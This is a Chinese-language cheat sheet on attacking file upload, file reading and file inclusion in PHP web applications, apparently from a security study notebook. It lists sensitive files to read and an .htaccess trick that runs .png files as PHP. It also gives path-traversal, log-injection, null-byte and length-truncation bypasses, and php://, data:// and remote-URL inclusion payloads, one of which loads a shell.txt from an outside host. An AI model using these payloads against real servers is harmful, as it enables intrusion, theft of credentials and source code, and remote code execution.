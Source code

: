 文件
================================

总体思路
--------------------------------
- 上传下载覆盖删除
    - move_uploaded_file
    - file_put_contents/file_get_contents
    - unlink
    - fopen/fgets
- 包含
    - LFI
        - 包含Web日志
        - 包含SSH日志
    - RFI
    - 全局找include, require
- 正常上传
    - 看上传是如何确定能否上传文件的



文件读取
--------------------------------
考虑读取可能有信息的文件

- 用户目录
    - .bash_history
    - .zsh_history
    - .profile
    - .bashrc
    - .gitconfig
    - .viminfo
    - passwd

- 配置文件
    - /etc/apache2/apache2.conf
    - /etc/nginx/nginx.conf

- 日志文件
    - /var/log/apache2/access.log
    - /var/log/nginx/access.log

- 站点目录
    - .svn/entries
    - .git/HEAD
    - WEB-INF/web.xml
    - .htaccess

- 特殊文件
    - .swp
    - .swo
    - .bak
    - index.php~
    - ...

- Python
    - ``__pycache__\__init__.cpython-35.pyc``


文件上传
--------------------------------
像apache这种可以考虑上传.htacess
内容为

::
    
    AddType application/x-httpd-php .png
    php_flag engine 1

就可以用png做php脚本了


文件包含
--------------------------------

基础
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

基础包含

::
    
    <?php include("inc/" . $_GET['file']); ?>

考虑常用的三种包含方式

同目录包含

::

    file=.htaccess

目录遍历

::

    ?file=../../../../../../../../../var/lib/locate.db

日志注入

::

    ?file=../../../../../../../../../var/log/apache/error.log

绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一般在文件包含之前，可能会调用file_exists，那么，如何对其进行绕过呢

1. 截断

1.1 %00截断

    几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

1.2 长度截断

    Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

    msdn定义```#define MAX_PATH 260```，第260个字符为字符串结尾的```\0```

    linux可以用getconf来判断文件名长度限制和文件路径长度限制

    获取最长文件路径长度：getconf PATH_MAX /root 得到4096
    获取最长文件名：getconf NAME_MAX /root 得到255

    那么在长度有限的时候，```././././``` (n个) 的形式就可以通过这个把路径爆掉

2. 伪协议绕过
    - RCE: requires allow_url_fopen=On and allow_url_include=On
    
    ::

        ?file=[http|https|ftp]://websec.wordpress.com/shell.txt

    - PHP INPUT: specify your payload in the POST parameters, watch urlencoding, details here, requires allow_url_include=On

    ::

        ?file=php://input

    
    - BASE64: lets you read PHP source because it wont get evaluated in base64. More details here and here

    ::

        ?file=php://filter/convert.base64-encode/resource=index.php

    
    - DATA: requires allow_url_include=On

    ::

        ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=


3. url绕过
4. 特殊字符绕过

